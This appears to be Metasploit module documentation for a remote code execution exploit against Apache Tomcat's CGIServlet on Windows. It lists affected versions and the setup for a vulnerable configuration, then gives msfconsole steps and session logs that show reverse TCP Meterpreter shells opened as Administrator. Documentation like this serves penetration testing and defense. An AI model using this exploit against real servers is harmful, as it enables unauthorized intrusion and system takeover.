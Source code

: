 ## Description

This module exploits a vulnerability in Apache Tomcat's CGIServlet component. When the enableCmdLineArguments setting is set to true, a remote user can abuse this to execute system commands, and gain remote code execution.

## Vulnerable Application

The following versions of Apache Tomcat on Windows are effected:

* 9.0.0.M1 to 9.0.17
* 8.5.0 to 8.5.39
* 7.0.0 to 7.0.93

Also, the machine needs to enable the `enableCmdLineArguments` option in `conf\web.xml`. For example:

```xml
<servlet>
<servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

Also:

```xml
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

Next, modify the `conf\context.xml` file replacing `<Context>` with `<Context privileged="true">`

Finally, a script needs to be available in the `webapps\ROOT\WEB-INF\cgi` directory. For example:

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/tomcat_cgi_cmdlineargs`
3. Configure rhosts
4. Configure TARGETURI
5. Set a payload
6. Run the module, you should get a session.

## Scenarios

### Apache Tomcat 9.0.17 with JDK 8 on Windows 10 Pro (x64)

#### Check Method

The check method of the exploit explicitly triggers the bug to verify the vulnerable, therefore it should be accurate. To use it, here is an example:

```
msf exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 172.16.135.141:8080 - The target is vulnerable.
```

#### Code Execution

```
msf exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Checking if 172.16.135.141 is vulnerable
[*] 172.16.135.141 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 172.16.135.141
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.141:51982) at 2019-06-18 15:26:54 -0500
[*] Command Stager progress - 100.02% done (100692/100668 bytes)

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
```

### Tomcat 8.5.20 with JDK 1.8.0_211-b12 on Windows 2012 (Build 9200)
```
msf exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 2.2.2.2:8080 - The target is vulnerable.
msf exploit(windows/http/tomcat_cgi_cmdlineargs) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Checking if 2.2.2.2 is vulnerable
[*] 2.2.2.2 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 2.2.2.2
[*] Command Stager progress - 100.02% done (100692/100668 bytes)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49612) at 2019-06-24 20:44:45 -0400

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
dir
Listing: C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\webapps\ROOT\WEB-INF\cgi
=====================================================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2019-06-24 20:44:19 -0400  %SystemDrive%
100777/rwxrwxrwx  73802  fil   2019-06-24 20:44:19 -0400  dKASF.exe
100777/rwxrwxrwx  67     fil   2019-06-20 21:52:49 -0400  example.bat
100777/rwxrwxrwx  69     fil   2019-06-24 15:15:13 -0400  test.bat

meterpreter > sysinfo
Computer        : WIN-EDKFSE5QPAB
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-EDKFSE5QPAB\Administrator
meterpreter > shell
Process 3256 created.
Channel 1 created.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\webapps\ROOT\WEB-INF\cgi>cd ..\..\..\..\bin
cd ..\..\..\..\bin

C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin>catalina.bat version
catalina.bat version
Using CATALINA_BASE:   "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20"
Using CATALINA_HOME:   "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20"
Using CATALINA_TMPDIR: "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\temp"
Using JRE_HOME:        "C:\Program Files\Java\jdk1.8.0_211"
Using CLASSPATH:       "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin\bootstrap.jar;C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin\tomcat-juli.jar"
Server version: Apache Tomcat/8.5.20
Server built:   Aug 2 2017 21:35:49 UTC
Server number:  8.5.20.0
OS Name:        Windows Server 2012
OS Version:     6.2
Architecture:   amd64
JVM Version:    1.8.0_211-b12
JVM Vendor:     Oracle Corporation

C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin>
```

